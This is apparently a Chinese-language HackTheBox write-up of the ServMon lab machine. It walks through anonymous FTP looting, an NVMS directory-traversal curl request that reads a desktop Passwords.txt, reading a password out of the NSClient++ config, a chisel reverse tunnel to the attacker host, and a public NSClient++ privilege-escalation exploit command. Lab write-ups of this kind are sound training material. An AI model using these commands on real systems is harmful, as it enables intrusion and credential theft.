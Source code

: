 ```yaml
---
layout: post
title: "[HackTheBox] Servmon Writeup"
subtitle: "少數有防毒軟體的靶機，但我沒有做AV Evation嘿嘿"
date: 2024-01-15
author: "Peter"
header-img: "img/post-bg-2023.jpg"
tags: [資安, writeup, hackthebox]
---
```


# [Windows][HTB] ServMon

厄嗯，這台靶機是相對比較惱人的一台，在一開始的階段我們透過查找可以找到一些文件表示密碼的位子，接著透過既有的web server的漏洞就可以拿到ssh的用戶密碼，可惜的是在提權階段因為防毒軟體的關係拿到反向的shell是十分困難，這邊簡單地透過windows的type指令拿到了root hash，進一步拿到reverse shell的話需要去應對防毒軟體，就不在這邊多做敘述。

<aside>
💡 包含所有系列的 writeup ，hackthebox 中所使用的本地ip與遠端ip會因為靶機的關係有所更動，請無視ip的變化。
</aside>

## Nmap Port Scan

```bash
21/tcp   open  ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_02-28-22  06:35PM       <DIR>          Users
22/tcp   open  ssh           syn-ack ttl 127 OpenSSH for_Windows_8.0 (protocol 2.0)
80/tcp   open  http          syn-ack ttl 127
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo: 
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     <script type="text/javascript">
|     window.location.href = "Pages/login.htm";
|     </script>
|     </head>
|     <body>
|     </body>
|     </html>
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack ttl 127
5666/tcp open  tcpwrapped    syn-ack ttl 127
6699/tcp open  napster?      syn-ack ttl 127
8443/tcp open  ssl/https-alt syn-ack ttl 127
```

省略了一些我個人覺得不太重要的資訊。這邊我們可以看到有ftp, ssh, smb, http, https，還有很奇怪的5666及6699。透過這個nmap我們並沒有看到一些特別奇怪的資訊，這些需要我們一個一個去找。

## FTP server enumeration

首先我們來看ftp，我們發現ftp是可以匿名登入的，透過匿名登入我們下載了一些資料，裡面包含了一些非常有價值的資訊。

```bash
# -m 代表著 -N -r -l inf --no-remove-listing，也就是下載所有檔案的意思， .listing 雖然有點惱人，但是-m是一個比較輕鬆的指令所以我都習慣直接這樣用

wget -m ftp://anonymous:anonymous@10.129.227.77
```

![Untitled](/img/in-post/servmon/Untitled1.png)

![Untitled](/img/in-post/servmon/Untitled.png)

在這邊我們可以看到幾個重點

1. Nadine把Nathan的 `Passwods.txt` 放在了桌面
2. NVMS的密碼被改過
3. NSClient的存取權限被限制
4. NVMS可以被外面存取
5. (可能) Passwords.txt 沒有被更新，還放在桌面

掌握了這些資訊，我們可以大致上判斷出

1. 密碼可能可以透過某些方法被存取
2. 有兩個web service，NVMS與NSClient
3. NVMS可能是漏洞，因為NSClient的存取權已經被限制

## NVMS Exploit

我們直接看打開的web service，跟我們上面猜測的一樣，port 80 跑的是 nvms ，而port 8443 跑的是 nsclient++。兩個服務我們雖然都可以碰到，但都沒有登入的密碼。

我們直接去查漏洞的話，發現[nvms有一個 Directory Traversal 的漏洞](https://www.exploit-db.com/exploits/48311)，這就有趣了，可以直接連結到我們上面的 Passwords.txt ，果不其然，我們可以簡單的看到密碼。

```bash
# 如果不用 --path-as-is 的話，curl會先處理url而會自動地把 ../ 去掉，這樣就達不成我們要的結果了
curl 'http://10.129.227.77/../../../../../../../../../../../../../../Users/Nathan/Deskto
p/Passwords.txt' --path-as-is
```

![Untitled](/img/in-post/servmon/Untitled2.png)

而後我們用crackmapexec去察看密碼歸屬的話，我們就成功拿到了 `nadine` 的帳號密碼，也成功地讓我們登入了ssh從而取得user hash。

![Untitled](/img/in-post/servmon/Untitled3.png)

![Untitled](/img/in-post/servmon/Untitled4.png)

## NSClient++ Privilege Escalation

接下來我們拿到user之後就要進到pe的階段，我們先看到8443運行著NSClient++但是我們沒有密碼，同時在上網搜尋的時候都說這是一個可以進行PE的漏洞，於是我們照著[網路上的說明](https://www.exploit-db.com/exploits/46802)進行，也成功地拿到了密碼。

```bash
type "c:\program files\nsclient++\nsclient.ini"
```

![Untitled](/img/in-post/servmon/Untitled5.png)

但我們發現，在我們遠端連線的時候沒辦法成功登入NSClient++，這也跟我們在FTP文件裡面看到的敘述相符，我們可以試著用 `chisel.exe` 做 Port Forwarding 到我們的主機上來。

![[https://10.129.227.77:8443/index.html#/settings](https://10.129.227.77:8443/index.html#/settings)](/img/in-post/servmon/Untitled6.png)

[https://10.129.227.77:8443/index.html#/settings](https://10.129.227.77:8443/index.html#/settings)

> NSClient++ 有點卡，要多F5幾次。

```bash
# local maching
/opt/chisel/chisel server -p 8081 --reverse
# target machine
.\chisel.exe client 10.10.14.14:8081 R:8443:127.0.0.1:8443
```

![[https://127.0.0.1:8443/index.html#/settings](https://127.0.0.1:8443/index.html#/settings)](/img/in-post/servmon/Untitled7.png)

[https://127.0.0.1:8443/index.html#/settings](https://127.0.0.1:8443/index.html#/settings)

接下來我們可以用 github 上面的腳本來跑，理論上也可以直接用 NSClient++ 來跑，但我發現設定有夠不人性化，用腳本跑簡單很多。我們這邊把 root.txt 移到桌面，就可以看到內容了。記得要等一下，因為是走排程。

[https://github.com/xtizi/NSClient-0.5.2.35---Privilege-Escalation](https://github.com/xtizi/NSClient-0.5.2.35---Privilege-Escalation)

```bash
python3 exploit.py 'type C:\\users\\administrator\\Desktop\\root.txt > c:\\proof.txt"' https://localhost:8443 ew2x6SsGTxjRwXOT
```

![Untitled](/img/in-post/servmon/Untitled8.png)

這個靶機就到這裡囉，至於防毒軟體有多機車，這邊就不做 AV Evasion 了，有興趣請參考網路上的各大 Writeup。


--- 

感謝閱讀，本篇文章同步發表於FB粉絲專頁[PP學習筆記](https://www.facebook.com/pplearningnote)